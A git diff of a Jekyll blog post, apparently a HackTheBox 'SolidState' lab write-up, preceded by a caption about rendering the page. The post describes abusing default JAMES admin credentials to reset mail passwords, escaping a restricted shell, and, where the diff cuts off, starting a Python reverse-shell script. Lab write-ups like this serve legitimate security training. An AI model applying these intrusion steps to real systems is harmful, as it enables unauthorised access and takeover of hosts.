

Before and after one commit to officialhocc/officialhocc.github.io, a Jekyll site: the page built from _posts/2018-01-27-solidstate.md, in a window 1280 px wide and 1400 px high, scrolled down 710 px. Shown: the part 260-949 px from the top of the window, without its empty margins (318-958 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update from Forestry.io - Updated 2018-01-27-solidstate.md

````diff
--- a/_posts/2018-01-27-solidstate.md
+++ b/_posts/2018-01-27-solidstate.md
@@ -10,16 +10,12 @@
   credit:
   creditlink:
 ---
-
-
-This post will describe exploitation of the Solidstate device on [HackTheBox](https://www.hackthebox.eu).
+This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).
 
 ![](https://image.ibb.co/nHoHJb/1.png)
 
-Solidstate's an interesting box, and also memorable as the day when the HTB platform shit itself from the load.  It's also a lesson in reading the damn exploit code.  I spent a long time re-running the exploit expecting stuff to happen, but the true realisation came when I sat down and actually read what the exploit did.
+## Enumeration
 
-Enumeration
------------------
 As is tradition, we run a full nmap scan:
 
 ```bash
@@ -38,15 +34,13 @@
 4555/tcp open  james-admin JAMES Remote Admin 2.3.2
 ```
 
-So one service definitely looks interesting, James 2.3.2.  However, we have no idea what we're dealing with so lets do some research and do a quick search for any open vulnerabilities.  From this we find that
+So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.
 
-One CVE that jumps out is an [exploit-db](https://www.exploit-db.com/exploits/35513/) python script.  This lets us inject a payload into bash_completion that will then execute only upon a user's login.  Effectively, we can run an arbitrary command, but only when a user logs in.
-
-However, this service has authentication.  A quick login confirms that credentials have been left as default:
+Logging in with Default Credentials:
 
 ![](https://image.ibb.co/h9w4yb/2.png)
 
-From this admin panel, we can change any user's password.
+From this admin panel, we can change any user's password:
 
 ![](https://image.ibb.co/bu1hjG/3.png)
 
@@ -96,14 +90,12 @@
 James
 ```
 
-We have recovered a username and password for Mindy, so let's SSH to the machine!
+We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough.
 
-I think a few people actually got a shell utilising the above JAMES exploit when the device was first released.  Once someone found the credentials and logged in, someone else's payload would be executed, such as one launching a reverse shell.  This won't work now however, several months after release when most people have done the box, but it gave an initial easy and interesting access point.
-
-Privilege Escalation
-----------------------------
+## Privilege Escalation
 
 ### Rbash escape
+
 When we SSH to the device, we're greeted by a restricted shell.
 
 ![](https://image.ibb.co/cpZ2jG/4.png)
@@ -147,6 +139,7 @@
 Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
 
 We'll place the following in tmp.py:
+
 ```python
 import socket,subprocess,os
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
````
